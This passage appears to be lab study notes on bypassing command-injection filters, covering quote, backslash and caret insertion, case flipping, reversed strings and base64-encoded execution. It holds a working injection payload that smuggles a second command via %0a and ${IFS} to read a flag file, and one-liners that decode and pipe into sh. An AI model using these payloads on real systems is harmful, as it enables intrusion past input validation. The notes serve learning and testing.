 w'h'oam'i"
```
Note that the quotes must have an even amount, and be matching (odd number of quotes is a syntax error)

## Linux
We can do the same with backslashes, and the character $@
```
wh/oam/i
wh$@oa$@mi
```

## Windows

^ is ignored and causes typical evaluation
```
who^ami
```

## Questions

```127.0.0.1%0ac"a"t${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt```

Same as the previous payload, except we extend ```/home``` to be ```/home/1nj3c70r/flag.txt```, and we change ls to cat, but cat is blacklisted, so we use ```c"a"t``` to bypass the filter.

# Advanced Command Obfuscation

Case manipulation involves using different hcaracter cases to bypass a filter. Windows is easy in this regard (Windows does not care about case-sensitive commands), but Linux/bash shell are case sensitive. So we have to make a function that evaluates a command to be all lowercase, like so

```
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

Reversed commands can also be executed

```
echo 'whoami' | rev == evaluates to imaohw
$(rev<<<'imaohw')
```

We can also execute base64 encoded commands, which allows us to bypass a lot of filters, since base64 is alphanumeric gibberish, with little special characters.


```
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
``` 
Encode a string with base64

`base64 -d <<< bHMgLWwgLwo= | sh` 
`bash<<<$(base64 -d<<<d2hvYW1p)`
Execute b64 encoded string

Even if some commands were filtered, like bash or base64, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like sh for command execution and openssl for b64 decoding, or xxd for hex decoding.

Thought process for the question here is as follows:
encode desired base64 command -> grab a linux command to execute the base64 encoded command -> throw it into the payload and bypass the filters

Let's start with seeing if we can execute base64 encoded whoami.

```